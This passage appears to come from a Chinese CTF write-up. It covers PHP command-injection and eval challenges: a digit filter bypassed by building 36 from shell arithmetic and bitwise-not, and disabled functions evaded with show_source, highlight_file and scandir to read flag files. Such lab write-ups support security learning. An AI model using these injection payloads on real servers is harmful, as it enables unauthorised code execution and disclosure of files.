 ```php
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```
这个题要传参c=36，但是由过滤了数字，可以考虑如下方式绕过
看这个例子
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637860730620-1abfb4d1-6da2-4059-8157-4af44c08a0aa.png#)
为什么会输出0呢，因为在shell中$(())可做运算，当参数为空时，打印0，那如何得到36呢，我们对0取反，得到是-1，然后用37个-1相加得到-37，最后再取反就得到36了
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637860973823-e1cea168-21e7-4251-bd72-3f0ceef253e2.png#)
得到-1
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637861295855-95cea956-3cf8-43ec-82fd-f1be6b1e35a0.png#)
37次运算后得到-37，最后取反得到36
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637861257944-40d23a4b-f17e-4f60-87d2-95400dff3a7e.png#)

```
payload：/?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```
右键查看源码即可获得flag
## web58-65（突破禁用函数）
```php
<?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```
这8个题可以通杀
payload：c=show_source('flag.php');
## web66（突破禁用函数）
```php
<?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```
show_source被禁用了，尝试另一种：c=highlight_file('flag.php');
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637861897471-ec1e3db6-0ebf-47e0-819a-422f51ff73ed.png#)
好家伙，看来路径变了，先看看都有哪些文件吧：c=print_r(scandir('.'));
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637862019048-dc174cac-ee38-4042-9b11-ae2b8774cec3.png#)
当前目录没有，再瞅一眼根目录：c=print_r(scandir('/'));
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637862111503-ac782c87-2950-4218-b1ad-e2133bcd7456.png#)
找到你了！可恶的flag.txt
最终payload：c=highlight_file('/flag.txt');
